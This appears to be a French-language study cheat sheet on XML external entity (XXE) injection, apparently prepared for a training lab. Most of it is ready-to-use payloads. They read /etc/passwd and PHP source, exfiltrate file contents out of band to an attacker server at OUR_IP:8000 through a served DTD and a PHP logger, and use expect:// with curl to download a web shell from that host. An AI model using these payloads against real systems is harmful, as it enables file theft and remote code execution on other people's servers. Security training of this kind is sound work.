 `<`, `>`, `&`, or `"`
`&lt;`, `&gt;`, `&amp;`, `&quot;`
## XML Document Type Definition (DTD)
```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```
`PUBLIC` ou  `SYSTEM` pour un chemin externe
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```


## Identification
Si on peut définir des entités et afficher.  Alors possible de référencer entités externes
Si requête envois du XML
Une application affiche le contenu de `<email>`
`<email>untel@htb.com</email>`
Définir un DTD et le référencer
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
	<email>
		&company;
	</email>
</root>
```
Si `Inlane Freight` est affiché alors vulnérable.

## JSON
La requête peut être faite en JSON mais accepte XML. Transformer alors en XML [online tool](https://www.convertjson.com/json-to-xml.htm)

## Lecture
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
Certains charactères ne sont pas permis dans les fichiers `<`/`>`/`&`. utiliser divers filtres PHP.
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### CDATA
Permet d'ignorer les charactères spéciaux, mais le joint ne fonctionne pas avec entités externes et internes:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Servir le fichier `xxe.dtd` de joint depuis notre serveur
```xml
<!ENTITY joined "%begin;%file;%end;">
```
### Erreurs
Générer une erreur. Pas toujours fiable: peut avoir limite de charactères ou ne pas afficher charactères spéciaux.
Servir le fichier suivant contenant une erreur
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Référencer les entités
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
### À l'aveugle
1. Servir le fichier `xxe.dtd` et `index.php`
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
php -S 0.0.0.0:8000
```
2.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Exécution de code
`php://expect://id` pour commandes simples qui ne brisent pas la syntax XML. Requière le module `expect`
Sinon, envoyer un remote shell. Remplacer espace par `$IFS`
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```

## SSRF

## DOS